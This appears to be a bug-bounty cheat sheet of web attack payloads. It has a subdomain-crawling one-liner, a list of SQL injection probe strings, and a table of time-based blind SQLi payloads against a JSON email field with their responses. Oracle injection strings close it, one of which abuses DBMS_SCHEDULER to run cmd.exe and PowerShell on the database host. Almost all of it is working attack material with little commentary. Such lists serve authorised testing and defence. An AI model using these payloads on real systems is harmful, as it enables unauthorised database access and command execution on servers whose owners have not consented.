 ```
echo "bugcrowd.com" | subfinder -silent | hakrawler -plain -usewayback -scope yolo | sed $'s/[./?=:&#]/\\n/g' | anew
```

# Check for SQLi
```
/?q=1
/?q=1'
/?q=1"
/?q=[1]
/?q[]=1
/?q=1`
/?q=1\
/?q=1/*'*/
/?q=1/*!1111'*/
/?q=1'||'asd'||'  <== concat string
/?q=1' or '1'='1
/?q=1 or 1=1
/?q='or''='
```
# SQLi in Email parameter

| Payload | Response |Injection Status |
| ------ | ------ |------ |
|{“email”:”asd@a.com”}| {“code”:2002,”status”:200,”message”:”Email not found.”}|	Valid|
|{“email”:”asd a@a.com”}|	{“code”:2002,”status”:200,”message”:”Bad format”}|	Not Valid|	
|{“email”:”\”asd a\”@a.com”}|	{“code”:2002,”status”:200,”message”:”Bad format”}|	Not Valid|	
|{“email”:”asd(a)@a.com”}|	{“code”:2002,”status”:200,”message”:”Bad format”}|	Not Valid|	
|{“email”:”\”asd(a)\”@a.com”}|	{“code”:2002,”status”:200,”message”:”Email not found.”}|	Valid|	
|{“email”:”asd’a@a.com”}|	{“code”:0,”status”:500,”message”:”Unspecified error”}|	Not Valid|	
|{“email”:”asd’or’1’=’1@a.com”}|	{“code”:2002,”status”:200,”message”:”Email not found.”}	Valid|	
|{“email”:”a’-IF(LENGTH(database())>9,SLEEP(7),0)or’1’=’1@a.com”}|	{“code”:2002,”status”:200,”message”:”Bad format”}|	Not Valid|
|{“email”:”\”a’-IF(LENGTH(database())>9,SLEEP(7),0)or’1’=’1\”@a.com”}|	{“code”:0,”status”:200,”message”:”Successful”}|	Valid	Delay: 7,854 milis|
|{“email”:”\”a’-IF(LENGTH(database())=10,SLEEP(7),0)or’1’=’1\”@a.com”}|	{“code”:0,”status”:200,”message”:”Successful”}|	Valid	Delay: 8,696 milis|
|{“email”:”\”a’-IF(LENGTH(database())=11,SLEEP(7),0)or’1’=’1\”@a.com”}|	{“code”:0,”status”:200,”message”:”Successful”}|	Valid	No delay|

### Oracle
```
1) UNION SELECT CASE WHEN (SELECT ASCII(SUBSTR((SELECT user FROM dual), 1, 1 )) FROM dual) >71 THEN (dbms_pipe.receive_message(('a'),10)) ELSE NULL END FROM dual --
1' AND 1=2 UNION SELECT SYS.KUPP$PROC.CREATE_MASTER_PROCESS('DBMS_SCHEDULER.create_program(''exec4'',''EXECUTABLE'',''c:\\WINDOWS\\system32\\cmd.exe /c type C:\\users\\public\\shell.ps1 | PowerShell.exe -noprofile - '',0,TRUE);DBMS_SCHEDULER.create_job(job_name=>''myjob11'',program_name=>''exec4'',start_date=>NULL,repeat_interval=>NULL,end_date=>NULL,enabled=>TRUE,auto_drop=>TRUE);dbms_lock.sleep(1);dbms_scheduler.drop_program(program_name=>''exec4'');dbms_scheduler.purge_log;'), null  FROM DUAL --
1' AND 1=1 UNION SELECT null, user FROM DUAL --
```
